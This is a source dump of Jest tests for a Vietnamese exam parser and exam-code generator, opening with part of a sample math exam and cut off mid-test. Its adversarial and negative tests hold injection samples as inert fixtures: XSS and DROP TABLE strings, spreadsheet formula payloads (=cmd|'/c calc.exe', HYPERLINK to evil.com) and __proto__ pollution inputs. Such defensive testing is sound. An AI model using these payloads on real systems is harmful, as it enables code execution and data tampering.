Loi_Giai: Vì $3 = \\sqrt{9} > \\sqrt{8} = 2\\sqrt{2}$ nên $|3 - 2\\sqrt{2}| = 3 - 2\\sqrt{2}$. Do đó $T = 3 - 2\\sqrt{2} + 2\\sqrt{2} = 3$.=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Nhan_Biet
De_Bai: Thực hiện phép tính và rút gọn các biểu thức sau:
a) $A = \\sqrt{49} - \\sqrt{25} + \\sqrt[3]{-8}$
b) $B = \\sqrt{3} \\cdot \\sqrt{12} + \\sqrt{\\frac{50}{2}}$
So_Dong_Nhap: 6
Loi_Giai:
a) Ta có: $\\sqrt{49} = 7$; $\\sqrt{25} = 5$; $\\sqrt[3]{-8} = -2$.
Suy ra $A = 7 - 5 + (-2) = 0$.
b) Ta có: $\\sqrt{3} \\cdot \\sqrt{12} = \\sqrt{3 \\cdot 12} = \\sqrt{36} = 6$.$\\sqrt{\\frac{50}{2}} = \\sqrt{25} = 5$.
Suy ra $B = 6 + 5 = 11$.[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Nhan_Biet
De_Bai: Tìm điều kiện xác định của các biểu thức sau:
a) $\\sqrt{2x - 8}$
b) $\\sqrt{6 - 3x}$
So_Dong_Nhap: 6
Loi_Giai:
a) Biểu thức $\\sqrt{2x - 8}$ xác định khi và chỉ khi:$2x - 8 \\ge 0 \\Leftrightarrow 2x \\ge 8 \\Leftrightarrow x \\ge 4$.
b) Biểu thức $\\sqrt{6 - 3x}$ xác định khi và chỉ khi:$6 - 3x \\ge 0 \\Leftrightarrow -3x \\ge -6 \\Leftrightarrow x \\le 2$.[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Thong_Hieu
De_Bai: Rút gọn các biểu thức sau:
a) $M = 3\\sqrt{18} - \\sqrt{50} + 2\\sqrt{8}$
b) $N = \\frac{5}{\\sqrt{5}} + \\frac{4}{\\sqrt{5}-1} - \\sqrt{(2-\\sqrt{5})^2}$
So_Dong_Nhap: 8
Loi_Giai:
a) Ta có:$M = 3\\sqrt{9 \\cdot 2} - \\sqrt{25 \\cdot 2} + 2\\sqrt{4 \\cdot 2}$$= 3 \\cdot 3\\sqrt{2} - 5\\sqrt{2} + 2 \\cdot 2\\sqrt{2}$$= 9\\sqrt{2} - 5\\sqrt{2} + 4\\sqrt{2} = 8\\sqrt{2}$.b) Ta có:$\\frac{5}{\\sqrt{5}} = \\sqrt{5}$.$\\frac{4}{\\sqrt{5}-1} = \\frac{4(\\sqrt{5}+1)}{5 - 1} = \\sqrt{5} + 1$.$\\sqrt{(2-\\sqrt{5})^2} = |2 - \\sqrt{5}| = \\sqrt{5} - 2$ (vì $2 < \\sqrt{5}$).
Suy ra:$N = \\sqrt{5} + (\\sqrt{5} + 1) - (\\sqrt{5} - 2) = \\sqrt{5} + 3$.[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: Cho biểu thức $A = \\left(\\frac{1}{\\sqrt{x}-2} - \\frac{1}{\\sqrt{x}+2}\\right) : \\frac{\\sqrt{x}}{x-4}$ với $x > 0$ và $x \\ne 4$.
a) Rút gọn biểu thức $A$.
b) Tìm giá trị của $x$ để $A = 1$.
So_Dong_Nhap: 8
Loi_Giai:
a) Với $x > 0, x \\ne 4$, ta có:$\\frac{1}{\\sqrt{x}-2} - \\frac{1}{\\sqrt{x}+2} = \\frac{(\\sqrt{x}+2) - (\\sqrt{x}-2)}{(\\sqrt{x}-2)(\\sqrt{x}+2)} = \\frac{4}{x - 4}$.
Khi đó:$A = \\frac{4}{x - 4} : \\frac{\\sqrt{x}}{x - 4} = \\frac{4}{x - 4} \\cdot \\frac{x - 4}{\\sqrt{x}} = \\frac{4}{\\sqrt{x}}$.b) Để $A = 1$ thì $\\frac{4}{\\sqrt{x}} = 1 \\Leftrightarrow \\sqrt{x} = 4 \\Leftrightarrow x = 16$.
Giá trị $x = 16$ thỏa mãn điều kiện xác định ($x > 0, x \\ne 4$).
Vậy $x = 16$.[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Một bể chứa nước dạng hình lập phương không có nắp có thể tích chứa tối đa là $64\\text{ m}^3$.
a) Tính độ dài cạnh của bể nước đó.
b) Người ta cần sơn chống thấm toàn bộ 4 mặt xung quanh và đáy phía trong lòng bể. Biết chi phí sơn mỗi mét vuông là 80 000 đồng. Tính tổng chi phí để hoàn thành việc sơn chống thấm bể nước.
So_Dong_Nhap: 8
Loi_Giai:
a) Gọi độ dài cạnh của bể nước hình lập phương là $a$ (m, $a > 0$).
Thể tích hình lập phương là $V = a^3 = 64 \\Rightarrow a = \\sqrt[3]{64} = 4\\text{ (m)}$.
Vậy độ dài cạnh bể là 4 m.b) Bể không nắp gồm 4 mặt xung quanh và 1 mặt đáy, tổng cộng là 5 mặt hình vuông diện tích bằng nhau.
Diện tích một mặt là: $S_1 = a^2 = 4^2 = 16\\text{ (m}^2\\text{)}$.
Tổng diện tích cần sơn chống thấm là: $S = 5 \\cdot S_1 = 5 \\cdot 16 = 80\\text{ (m}^2\\text{)}$.
Tổng chi phí sơn chống thấm là:$\\text{Chi phí} = 80 \\cdot 80\\,000 = 6\\,400\\,000\\text{ (đồng)}$.
Vậy tổng chi phí là 6 400 000 đồng.`;

      // Truoc day cau hoi DUNG_SAI thu 48 (K = ...) lam parser throw vi no co
      // 2 dong "Dap_An:"/"Loi_Giai:" trong cung 1 [CAU_HOI] (dau la ket qua
      // AI tu sua dap an "Dung" -> "Sai" nhung khong tach cau hoi moi) khien
      // "Dap_An" bi noi thanh "Dung Sai", khong khop regex Dung/Sai.
      expect(() => parser.parse(raw)).not.toThrow();
      const blocks = parser.parse(raw);

      // Header "=PHAN_2_TU_LUAN=" trong prompt nay bi dinh lien vao cuoi dong
      // truoc (khong xuong dong rieng). _repairMissingNewlines() (goi dau
      // parse()) tu dong "va lai" xuong dong truoc header dang "=PHAN...="
      // khi bi dinh lien, nen van tach dung thanh 2 block rieng biet: 53 cau
      // (30 TN + 20 DUNG_SAI + 3 DIEN_TU) va 5 cau TU_LUAN.
      expect(blocks).toHaveLength(2);
      expect(blocks[0].block_type).toBe('MULTIPLE_CHOICE');
      expect(blocks[0].questions).toHaveLength(53);
      expect(blocks[1].block_type).toBe('ESSAY');
      expect(blocks[1].questions).toHaveLength(5);

      // Cau DUNG_SAI thu 48 (K = sqrt(9-4sqrt5)+sqrt5 bang 2): dap an dung
      // phai la gia tri KHAI BAO SAU CUNG ("Sai"), khong phai dap an dau tien
      // ("Dung") va cang khong phai chuoi loi "Dung Sai".
      const kQuestion = blocks[0].questions[47];
      expect(kQuestion.question_type).toBe('TRUE_FALSE');
      expect(kQuestion.correct_answer).toBe('Sai');
    });

    test('TC-TP-28: de thi bi mat toan bo ky tu xuong dong (dinh thanh 1 dong duy nhat, vd do copy tu khung chat/PDF) van duoc parse dung', () => {
      const raw = '=PHAN_1=[CAU_HOI]Loai: TNMuc_Do: Nhan_BietDe_Bai: Cho tam giac ABC. Gia tri cua 2 + 2 bang bao nhieu?A. 3B. 4C. 5D. 6Dap_An: BLoi_Giai: Vi 2+2=4[CAU_HOI]Loai: DUNG_SAIMuc_Do: Nhan_BietDe_Bai: So 4 la so chan?Dap_An: DungLoi_Giai: 4 chia het cho 2=PHAN_2=[CAU_HOI]Loai: TU_LUANMuc_Do: Van_Dung_CaoDe_Bai: Giai phuong trinh x^2 - 4 = 0So_Dong_Nhap: 6Loi_Giai: x = 2 hoac x = -2';

      const blocks = parser.parse(raw);

      expect(blocks).toHaveLength(2);
      expect(blocks[0].questions).toHaveLength(2);
      expect(blocks[1].questions).toHaveLength(1);

      const mcq = blocks[0].questions[0];
      expect(mcq.question_type).toBe('MCQ');
      // "Cho tam giac ABC." khong bi nham la lua chon (chi co "C." dung dinh
      // dang cham cau vi lien "AB" chu khong tach rieng, nen khong khop du
      // chuoi A./B./C.) - options that su duoc lay tu cuoi cung, sat "Dap_An:".
      expect(mcq.content).toBe('Cho tam giac ABC. Gia tri cua 2 + 2 bang bao nhieu?');
      expect(mcq.options).toEqual([
        { option_key: 'A', option_text: '3', is_correct: false },
        { option_key: 'B', option_text: '4', is_correct: true },
        { option_key: 'C', option_text: '5', is_correct: false },
        { option_key: 'D', option_text: '6', is_correct: false }
      ]);

      const tf = blocks[0].questions[1];
      expect(tf.question_type).toBe('TRUE_FALSE');
      expect(tf.correct_answer).toBe('Dung');

      const essay = blocks[1].questions[0];
      expect(essay.question_type).toBe('ESSAY');
      expect(essay.draft_lines_count).toBe(6);
    });
  });

  // ---------------------------------------------------------------------
  // 2. EDGE CASES
  // ---------------------------------------------------------------------
  describe('Edge Cases', () => {
    test('TC-TP-06: MCQ voi dung 2 lua chon (bien duoi cua so luong dap an) van hop le', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Dung hay sai kieu TN 2 dap an?
A. Dung
B. Sai
Dap_An: A
`;
      const [block] = parser.parse(raw);
      expect(block.questions[0].options).toHaveLength(2);
    });

    test('TC-TP-07: MCQ voi 3 lua chon (khong co D) van hop le', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Chon 1 trong 3?
A. Mot
B. Hai
C. Ba
Dap_An: C
`;
      const [block] = parser.parse(raw);
      expect(block.questions[0].options).toHaveLength(3);
      expect(block.questions[0].correct_answer).toBe('C');
    });

    test('TC-TP-08: TU_LUAN khong khai bao So_Dong_Nhap se mac dinh 5 dong', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: Trinh bay...
`;
      const [block] = parser.parse(raw);
      expect(block.questions[0].draft_lines_count).toBe(5);
    });

    test.each([['0'], ['-3'], ['abc']])(
      'TC-TP-09: TU_LUAN voi So_Dong_Nhap khong hop le (%s) se fallback ve 5 dong',
      (value) => {
        const raw = `===P===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: Trinh bay...
So_Dong_Nhap: ${value}
`;
        const [block] = parser.parse(raw);
        expect(block.questions[0].draft_lines_count).toBe(5);
      }
    );

    test('TC-TP-10: dong trong giua cac truong khong lam hong ket qua parse', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet

De_Bai: Cau hoi co dong trong?

A. Co
B. Khong

Dap_An: A
`;
      const [block] = parser.parse(raw);
      expect(block.questions[0].content).toBe('Cau hoi co dong trong?');
      expect(block.questions[0].correct_answer).toBe('A');
    });

    test('TC-TP-11: van ban khong co header =...= van duoc parse voi block mac dinh', () => {
      const raw = `[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Khong co section header?
A. Co
B. Khong
Dap_An: A
`;
      const blocks = parser.parse(raw);
      expect(blocks).toHaveLength(1);
      expect(blocks[0].questions).toHaveLength(1);
    });

    // Da sua: header section chi can it nhat 1 dau "=" o dau va cuoi dong
    // (^=+\s*(.+?)\s*=+$), khong bat buoc dung 3 dau "===" nhu truoc.
    test.each(['=P=', '==P==', '===P===', '====P===='])(
      'TC-TP-25: header "%s" (so luong dau = bat ky >= 1, doi xung hay khong deu duoc) duoc nhan dien dung',
      (header) => {
        const raw = `${header}
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: A hay B?
A. A
B. B
Dap_An: A
`;
        const [block] = parser.parse(raw);
        expect(block.block_title).toBe('P');
        expect(block.questions).toHaveLength(1);
      }
    );

    test('TC-TP-26: header voi so dau = khong doi xung o hai dau (vd "=P===") van duoc nhan dien', () => {
      const raw = `=P===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: A hay B?
A. A
B. B
Dap_An: A
`;
      const [block] = parser.parse(raw);
      expect(block.block_title).toBe('P');
    });

    // Da sua gap: DIFFICULTY_MAP duoc tra cuu khong phan biet hoa/thuong
    // (rawDifficulty.toLowerCase()), nen "nhan_biet", "NHAN_BIET",
    // "Nhan_Biet" deu duoc chuan hoa dung ve 'NB'.
    test.each(['Nhan_Biet', 'nhan_biet', 'NHAN_BIET', 'nHaN_bIeT'])(
      'TC-TP-12: Muc_Do khong phan biet hoa/thuong ("%s") van duoc chuan hoa dung',
      (value) => {
        const raw = `===P===
[CAU_HOI]
Loai: TN
Muc_Do: ${value}
De_Bai: Case khong con nhay cam?
A. Co
B. Khong
Dap_An: A
`;
        const [block] = parser.parse(raw);
        expect(block.questions[0].difficulty_level).toBe('NB');
      }
    );
  });

  // ---------------------------------------------------------------------
  // 3. NEGATIVE CASES
  // ---------------------------------------------------------------------
  describe('Negative Cases', () => {
    test('TC-TP-13: chuoi rong hoac chi co khoang trang bi tu choi', () => {
      expect(() => parser.parse('')).toThrow('Noi dung dan vao dang rong.');
      expect(() => parser.parse('   \n  \n')).toThrow('Noi dung dan vao dang rong.');
    });

    test('TC-TP-14: Loai khong hop le nem loi kem vi tri (phan/cau)', () => {
      const raw = `===P===
[CAU_HOI]
Loai: KHONG_TON_TAI
Muc_Do: Nhan_Biet
De_Bai: abc
`;
      expect(() => parser.parse(raw)).toThrow(/Phan 1 - Cau hoi 1.*Loai/);
    });

    test('TC-TP-15: Muc_Do bi thieu nem loi', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TN
De_Bai: abc
A. 1
B. 2
Dap_An: A
`;
      expect(() => parser.parse(raw)).toThrow(/Muc_Do/);
    });

    test('TC-TP-16: thieu De_Bai (noi dung rong) nem loi', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
`;
      expect(() => parser.parse(raw)).toThrow(/De_Bai/);
    });

    test('TC-TP-17: MCQ chi co 1 lua chon nem loi "it nhat 2 lua chon"', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: abc
A. Chi 1 lua chon
Dap_An: A
`;
      expect(() => parser.parse(raw)).toThrow(/it nhat 2 lua chon/);
    });

    test('TC-TP-18: Dap_An khong khop voi bat ky lua chon nao nem loi', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: abc
A. 1
B. 2
Dap_An: E
`;
      expect(() => parser.parse(raw)).toThrow(/khong khop/);
    });

    test('TC-TP-19: DUNG_SAI voi Dap_An khac "Dung"/"Sai" nem loi', () => {
      const raw = `===P===
[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: abc
Dap_An: Yes
`;
      expect(() => parser.parse(raw)).toThrow(/Dung.*Sai|Dap_An/);
    });

    test('TC-TP-20: DIEN_TU thieu Dap_An nem loi', () => {
      const raw = `===P===
[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Nhan_Biet
De_Bai: abc
`;
      expect(() => parser.parse(raw)).toThrow(/thieu "Dap_An"/);
    });

    test('TC-TP-21: cac section deu rong (khong co noi dung cau hoi nao) nem loi "khong tim thay khoi cau hoi"', () => {
      // Ca hai section deu khong co than bai (body rong) vi header noi tiep
      // nhau ngay lap tuc -> khong section nao sinh ra chunk cau hoi nao.
      const raw = `===PHAN_1===
===PHAN_2===
`;
      expect(() => parser.parse(raw)).toThrow(/Khong tim thay khoi cau hoi/);
    });

    test('TC-TP-22 [Injection]: noi dung chua the HTML/script duoc giu nguyen dang chuoi, khong bi thuc thi', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: <script>alert('xss')</script> va '; DROP TABLE EXAM;--
A. 1
B. 2
Dap_An: A
`;
      const [block] = parser.parse(raw);
      expect(block.questions[0].content).toContain("<script>alert('xss')</script>");
      expect(block.questions[0].content).toContain("DROP TABLE EXAM");
      // Parser chi la string-processing thuan tuy (khong eval/exec), nen day la
      // du lieu an toan o tang parser. Trach nhiem escape HTML khi hien thi
      // thuoc ve tang frontend (script.js dung textContent, xem README).
    });
  });

  // ---------------------------------------------------------------------
  // 4. EXCEPTION / ERROR HANDLING
  // ---------------------------------------------------------------------
  describe('Exception Handling', () => {
    test('TC-TP-23: null/undefined duoc bao loi than thien (khong crash)', () => {
      expect(() => parser.parse(null)).toThrow('Noi dung dan vao dang rong.');
      expect(() => parser.parse(undefined)).toThrow('Noi dung dan vao dang rong.');
    });

    // Da sua gap: parse() kiem tra `typeof rawContent !== 'string'` truoc
    // khi goi .trim(), nen cac gia tri "truthy" nhung khong phai string
    // (number, object, array...) deu nhan loi nghiep vu than thien thay vi
    // crash bang TypeError.
    test.each([123, {}, [], true])(
      'TC-TP-24: input khong phai string (%p) nhan loi nghiep vu than thien, khong crash',
      (value) => {
        expect(() => parser.parse(value)).toThrow('Noi dung dan vao dang rong.');
      }
    );
  });
});

```

### FILE: tests/parser/adversarial.test.js

```javascript
const { TextPromptParser } = require('../../backend/parser/TextPromptParser.js');
const { FileUploadParser } = require('../../backend/parser/FileUploadParser.js');

/**
 * Fuzz / adversarial test cho tang parser: khong chi "sai dinh dang" thong
 * thuong ma con la du lieu co CHU DICH gay nham lan hoac tan cong (prototype
 * pollution, ky tu phan cach bi nhung trong noi dung, du lieu cuc lon,
 * unicode bien).
 */
describe('Adversarial: TextPromptParser', () => {
  let parser;
  beforeEach(() => { parser = new TextPromptParser(); });

  test('TC-ADV-P01 [Hieu nang]: 1000 cau hoi trong 1 lan parse hoan tat nhanh va dung so luong', () => {
    let raw = '===PHAN_1===\n';
    for (let i = 0; i < 1000; i++) {
      raw += `[CAU_HOI]\nLoai: TN\nMuc_Do: Nhan_Biet\nDe_Bai: Cau hoi so ${i}?\nA. Dung\nB. Sai\nDap_An: A\n\n`;
    }
    const start = Date.now();
    const [block] = parser.parse(raw);
    const elapsed = Date.now() - start;

    expect(block.questions).toHaveLength(1000);
    expect(elapsed).toBeLessThan(3000);
  });

  test('TC-ADV-P02 [Ghi nhan hanh vi - ambiguity]: neu De_Bai chua mot dong dung dinh dang "=...=", dong do bi hieu nham thanh header section moi va lam hong viec parse', () => {
    // Day la mot han che thuc te cua thuat toan tach section (dua tren dong
    // khop ^=+\s*(.+?)\s*=+$, tuc it nhat 1 dau "=" o dau va cuoi - xem
    // TextPromptParser.js). Dong "===VI_DU===" nam giua noi dung cau hoi bi
    // hieu nham thanh mot section MOI bat dau, cat dut cau hoi dang do; phan
    // con lai ("Do la mot vi du ve markdown.") khong co [CAU_HOI]/Loai hop le
    // nen parser bao loi thay vi tra ve 1 cau hoi duy nhat nhu nguoi dung
    // mong doi. Ghi lai de biet ranh gioi: giao vien khong nen de dong noi
    // dung trung khop dinh dang nay trong De_Bai.
    const raw = `===PHAN_1===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: Hay giai thich ky hieu sau:
===VI_DU===
Do la mot vi du ve markdown.
`;
    expect(() => parser.parse(raw)).toThrow(/Loai/);
  });

  test('TC-ADV-P02b [Ghi nhan hanh vi - ambiguity]: sau khi noi long dinh dang, mot dong CHI mot dau "=" o dau/cuoi (vd "=VI_DU=") cung bi hieu nham thanh header, rong hon truoc day (truoc chi "===" moi bi)', () => {
    const raw = `===PHAN_1===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: Hay giai thich ky hieu sau:
=VI_DU=
Do la mot vi du ve markdown.
`;
    expect(() => parser.parse(raw)).toThrow(/Loai/);
  });

  test('TC-ADV-P03 [Unicode bien]: noi dung chi gom khoang trang khong-chuan (zero-width space U+200B) khong bi .trim() nhan dien la rong', () => {
    // Ghi nhan hanh vi: String.prototype.trim() cua JS KHONG coi U+200B la
    // whitespace, nen mot De_Bai "chi co" U+200B se duoc coi la co noi dung
    // hop le (khac voi khoang trang thuong " " se bi tu choi). Day la mot
    // gap tiem an (noi dung "trong rong ve mat thi giac" van duoc chap
    // nhan), khong phai loi crash.
    const raw = `===P===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: ​
`;
    const [block] = parser.parse(raw);
    expect(block.questions[0].content).toBe('​');
  });

  test('TC-ADV-P04: noi dung chua ky hieu cong thuc injection (=cmd|, +HYPERLINK, @SUM) duoc giu nguyen van, khong bi dien giai/thuc thi', () => {
    const raw = `===P===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: =cmd|'/c calc.exe'!A1 va @SUM(1,2) va +HYPERLINK("http://evil.com")
`;
    const [block] = parser.parse(raw);
    expect(block.questions[0].content).toBe("=cmd|'/c calc.exe'!A1 va @SUM(1,2) va +HYPERLINK(\"http://evil.com\")");
  });

  test('TC-ADV-P05: mot De_Bai cuc dai (50,000 ky tu) van duoc parse day du, khong bi cat bot', () => {
    const hugeLine = 'X'.repeat(50000);
    const raw = `===P===\n[CAU_HOI]\nLoai: TU_LUAN\nMuc_Do: Van_Dung\nDe_Bai: ${hugeLine}\n`;
    const [block] = parser.parse(raw);
    expect(block.questions[0].content).toHaveLength(50000);
  });
});

describe('Adversarial: FileUploadParser', () => {
  let parser;
  beforeEach(() => { parser = new FileUploadParser(); });

  afterEach(() => {
    // Don dep bat ky o nhiem nao co the sot lai tu cac test truoc, tranh anh
    // huong cheo sang cac test file khac trong cung tien trinh Jest.
    delete Object.prototype.polluted_marker_csv;
    delete Object.prototype.polluted_marker_json;
  });

  test('TC-ADV-P06 [Security]: cot CSV dat ten "__proto__" khong lam o nhiem Object.prototype', () => {
    const csv = `section,loai,muc_do,de_bai,a,b,dap_an,__proto__\nP,TN,Nhan_Biet,abc,1,2,A,{"polluted_marker_csv":true}\n`;
    parser.parse(csv, 'de.csv');
    expect({}.polluted_marker_csv).toBeUndefined();
  });

  test('TC-ADV-P07 [Security]: JSON co khoa "__proto__" o cap cao nhat khong lam o nhiem Object.prototype', () => {
    const raw = '{"blocks":[{"block_type":"ESSAY","questions":[{"question_type":"ESSAY","content":"x"}]}],"__proto__":{"polluted_marker_json":true}}';
    parser.parse(raw, 'de.json');
    expect({}.polluted_marker_json).toBeUndefined();
  });

  test('TC-ADV-P08 [Ghi nhan hanh vi]: dong CSV co SO COT it hon dong tieu de khong lam crash - cac cot con thieu duoc coi la rong', () => {
    const csv = `section,loai,muc_do,de_bai,a,b,dap_an\nP,TN,Nhan_Biet,abc,1\n`;
    expect(() => parser.parse(csv, 'de.csv')).toThrow(); // thieu dap_an vi cot bi cat cut -> loi nghiep vu ro rang, khong phai crash
  });

  test('TC-ADV-P09 [Ghi nhan hanh vi]: dong CSV co SO COT NHIEU hon dong tieu de khong lam crash - cot du bi bo qua', () => {
    const csv = `section,loai,muc_do,de_bai,a,b,dap_an\nP,TN,Nhan_Biet,abc,1,2,A,cot_du_thua,con_du_nua\n`;
    const [block] = parser.parse(csv, 'de.csv');
    expect(block.questions[0].correct_answer).toBe('A');
  });

  test('TC-ADV-P10: gia tri CSV chua ky hieu cong thuc injection duoc giu nguyen van khi doc tu tep', () => {
    const csv = `section,loai,muc_do,de_bai,dap_an\nP,DIEN_TU,Nhan_Biet,"=cmd|'/c calc'!A1","@SUM(1,2)"\n`;
    const [block] = parser.parse(csv, 'de.csv');
    expect(block.questions[0].content).toBe("=cmd|'/c calc'!A1");
    expect(block.questions[0].correct_answer).toBe('@SUM(1,2)');
  });

  test('TC-ADV-P11 [Hieu nang]: tep CSV 1000 dong duoc parse hoan tat nhanh va dung so luong', () => {
    let csv = 'section,loai,muc_do,de_bai,a,b,dap_an\n';
    for (let i = 0; i < 1000; i++) {
      csv += `P,TN,Nhan_Biet,Cau ${i},1,2,A\n`;
    }
    const start = Date.now();
    const [block] = parser.parse(csv, 'de.csv');
    const elapsed = Date.now() - start;

    expect(block.questions).toHaveLength(1000);
    expect(elapsed).toBeLessThan(3000);
  });
});

```

### FILE: tests/parser/examCodeGenerator.test.js

```javascript
const {
  fisherYatesShuffle,
  allocateForCodes,
  generateExamCodes,
  shuffleAllMCQOptions
} = require('../../backend/parser/examCodeGenerator.js');

function makeMCQ(id, correctText, difficulty = 'NB') {
  return {
    id,
    question_type: 'MCQ',
    content: `Cau hoi ${id}`,
    difficulty_level: difficulty,
    explanation: null,
    correct_answer: 'A',
    options: [
      { option_key: 'A', option_text: correctText, is_correct: true },
      { option_key: 'B', option_text: 'sai 1', is_correct: false },
      { option_key: 'C', option_text: 'sai 2', is_correct: false },
      { option_key: 'D', option_text: 'sai 3', is_correct: false }
    ],
    draft_lines_count: 0
  };
}

function makeSimple(id, type) {
  return {
    id,
    question_type: type,
    content: `Cau hoi ${id}`,
    difficulty_level: 'TH',
    explanation: null,
    correct_answer: type === 'TRUE_FALSE' ? 'Dung' : 'dap an',
    options: [],
    draft_lines_count: type === 'ESSAY' ? 5 : 0
  };
}

describe('fisherYatesShuffle', () => {
  test('TC-01: khong lam mat hoac them phan tu, khong sua doi mang goc', () => {
    const original = [1, 2, 3, 4, 5];
    const copy = [...original];
    const shuffled = fisherYatesShuffle(original);
    expect(original).toEqual(copy);
    expect(shuffled.slice().sort()).toEqual(original.slice().sort());
  });

  test('TC-02: mang rong tra ve mang rong', () => {
    expect(fisherYatesShuffle([])).toEqual([]);
  });
});

describe('allocateForCodes', () => {
  test('TC-03: chia het (total % q === 0) - moi ma de nhan dung total/q, khong trung lap', () => {
    const pool = Array.from({ length: 12 }, (_, i) => ({ id: i }));
    const result = allocateForCodes(pool, 4);
    expect(result).toHaveLength(4);
    result.forEach(part => expect(part).toHaveLength(3));

    const allIds = result.flat().map(x => x.id);
    expect(new Set(allIds).size).toBe(12);
    expect(allIds.slice().sort((a, b) => a - b)).toEqual(pool.map(x => x.id));
  });

  test('TC-04: co du (total % q !== 0) - phan du rai duy nhat, tong khop total, khong trung lap', () => {
    const pool = Array.from({ length: 10 }, (_, i) => ({ id: i }));
    const result = allocateForCodes(pool, 4); // base=2, remainder=2
    const sizes = result.map(p => p.length);
    expect(sizes.reduce((a, b) => a + b, 0)).toBe(10);
    sizes.forEach(s => expect([2, 3]).toContain(s));
    expect(sizes.filter(s => s === 3)).toHaveLength(2);

    const allIds = result.flat().map(x => x.id);
    expect(new Set(allIds).size).toBe(10);
  });

  test('TC-05: q lon hon total - mot so ma de nhan 0 cau, khong ep lap lai', () => {
    const pool = Array.from({ length: 3 }, (_, i) => ({ id: i }));
    const result = allocateForCodes(pool, 5);
    const sizes = result.map(p => p.length);
    expect(sizes.reduce((a, b) => a + b, 0)).toBe(3);
    expect(sizes.filter(s => s === 1)).toHaveLength(3);
    expect(sizes.filter(s => s === 0)).toHaveLength(2);
  });

  test('TC-06: pool rong - tra ve q mang rong', () => {
    const result = allocateForCodes([], 3);
    expect(result).toEqual([[], [], []]);
  });
});

describe('generateExamCodes', () => {
  test('TC-07: bao loi khi de goc khong co cau hoi nao', () => {
    expect(() => generateExamCodes([], 3)).toThrow();
  });

  test('TC-08: sinh dung so ma de voi ten theo prefix/start', () => {
    const blocks = [{ block_type: 'MULTIPLE_CHOICE', questions: [makeMCQ('m1', 'dung')] }];
    const versions = generateExamCodes(blocks, 3, { prefix: 'Mã', start: 1 });
    expect(versions.map(v => v.code)).toEqual(['Mã 1', 'Mã 2', 'Mã 3']);
  });

  test('TC-09: giu dung dap an dung sau khi xao lua chon MCQ', () => {
    const blocks = [{
      block_type: 'MULTIPLE_CHOICE',
      questions: Array.from({ length: 8 }, (_, i) => makeMCQ(`m${i}`, `DAP_AN_DUNG_${i}`))
    }];
    const versions = generateExamCodes(blocks, 4);
    versions.forEach(v => {
      v.blocks.forEach(b => {
        b.questions.forEach(q => {
          if (q.question_type !== 'MCQ') return;
          const correctOpt = q.options.find(o => o.option_key === q.correct_answer);
          expect(correctOpt).toBeDefined();
          expect(correctOpt.is_correct).toBe(true);
          expect(correctOpt.option_text).toMatch(/^DAP_AN_DUNG_/);
          const correctCount = q.options.filter(o => o.is_correct).length;
          expect(correctCount).toBe(1);
        });
      });
    });
  });

  test('TC-10: tach dung 2 khoi (trac nghiem gop MCQ/TF/FILL_BLANK, va tu luan)', () => {
    const blocks = [{
      block_type: 'MULTIPLE_CHOICE',
      questions: [
        makeMCQ('m1', 'a'),
        makeSimple('tf1', 'TRUE_FALSE'),
        makeSimple('fb1', 'FILL_BLANK'),
        makeSimple('es1', 'ESSAY')
      ]
    }];
    const versions = generateExamCodes(blocks, 2);
    versions.forEach(v => {
      const objectiveBlock = v.blocks.find(b => b.block_type === 'MULTIPLE_CHOICE');
      const essayBlock = v.blocks.find(b => b.block_type === 'ESSAY');
      if (objectiveBlock) {
        expect(objectiveBlock.questions.every(q => q.question_type !== 'ESSAY')).toBe(true);
      }
      if (essayBlock) {
        expect(essayBlock.questions.every(q => q.question_type === 'ESSAY')).toBe(true);
      }
    });
  });

  test('TC-12: chia deu ti le muc do kho trong tung loai cau hoi giua cac ma de', () => {
    // 12 cau MCQ: 4 NB + 4 TH + 4 VD, chia cho 4 ma de => moi ma de phai
    // co dung 1 NB + 1 TH + 1 VD (khong phai chi "3 cau MCQ bat ky").
    const questions = [
      ...Array.from({ length: 4 }, (_, i) => makeMCQ(`nb${i}`, `NB_${i}`, 'NB')),
      ...Array.from({ length: 4 }, (_, i) => makeMCQ(`th${i}`, `TH_${i}`, 'TH')),
      ...Array.from({ length: 4 }, (_, i) => makeMCQ(`vd${i}`, `VD_${i}`, 'VD'))
    ];
    const blocks = [{ block_type: 'MULTIPLE_CHOICE', questions }];
    const versions = generateExamCodes(blocks, 4);

    versions.forEach(v => {
      const mcqQuestions = v.blocks[0].questions;
      const byDifficulty = { NB: 0, TH: 0, VD: 0 };
      mcqQuestions.forEach(q => { byDifficulty[q.difficulty_level]++; });
      expect(byDifficulty).toEqual({ NB: 1, TH: 1, VD: 1 });
    });
  });

  test('TC-13: khong co du lieu muc do nao van chia deu (khong loi, khong mat cau)', () => {
    const questions = [
